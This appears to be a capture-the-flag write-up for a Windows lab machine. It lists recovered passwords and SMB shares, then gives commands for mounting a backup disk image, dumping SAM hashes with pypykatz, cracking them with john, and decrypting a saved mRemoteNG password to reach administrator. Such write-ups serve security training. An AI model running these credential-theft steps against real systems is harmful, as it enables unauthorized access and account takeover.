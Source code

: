 ## Info
### Credential
 User | Password       | Service | Note
------|----------------|---------|-------
L4mpje|bureaulampje    |         |
Admin |thXLHM96BeKL0ER2|


### SMB
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
Backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

## Path
### User
1. By trying, I found `guest` user exist on SMB.
```
$ rpcclient $ip
Enter WORKGROUP\ice1187's password: 
Bad SMB2 signature for message
[0000] 00 00 00 00 00 00 00 00   00 00 00 00 00 00 00 00   ........ ........
[0000] F0 3F A0 7B F9 A8 CE 2C   D4 41 E4 18 25 B0 CE 6B   .?.{..., .A..%..k
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
$ rpcclient -U guest $ip
Enter WORKGROUP\guest's password: 
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```
2. There are some `.vhd` files in the share, but it is too large to be downloaded. So I mount the share, than mount the `.vhd` file.
```
$ sudo mount -t cifs "//$ip/Backups/" ./mnt/Backups
$ sudo guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro ../../../../vhd
```
3. Get `SAM` and `SYSTEM` registry hives, then dump the credentials using `pypykatz`.
```
$ sudo cp vhd/Windows/System32/config/SAM ..
$ sudo cp vhd/Windows/System32/config/SYSTEM ..
$ pypykatz registry --sam SAM SYSTEM
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: 8b56b2cb5033d8e2e289c26f8939a25f
============== SAM hive secrets ==============
HBoot Key: 335e6c10b1dce6433e9ef82d30f49d3a3463f8e0097de6f0d90d07b234f03d52
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```
4. Crack the NTLM hash and get L4mpje's password, then login via SSH and get the user flag.
```
$ sudo john --wordlist=/opt/SecLists/Passwords/Leaked-Databases/rockyou.txt creds.ntlm --format=nt
```

### Root
1. Found `mRemoteNG` is installed by looking into `\Program Files (x86)`, and get the encrypted password of the app at `\Users\L4mpje\AppData\Roaming\mRemoteNG`.
2. Dcrypt the password with [mremoteng-decrypt](https://github.com/kmahyyg/mremoteng-decrypt).
```
$ python3 mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7l
WWA10dQKiw==
Password: thXLHM96BeKL0ER2
```
3. Login as admin with the password and get the root flag.

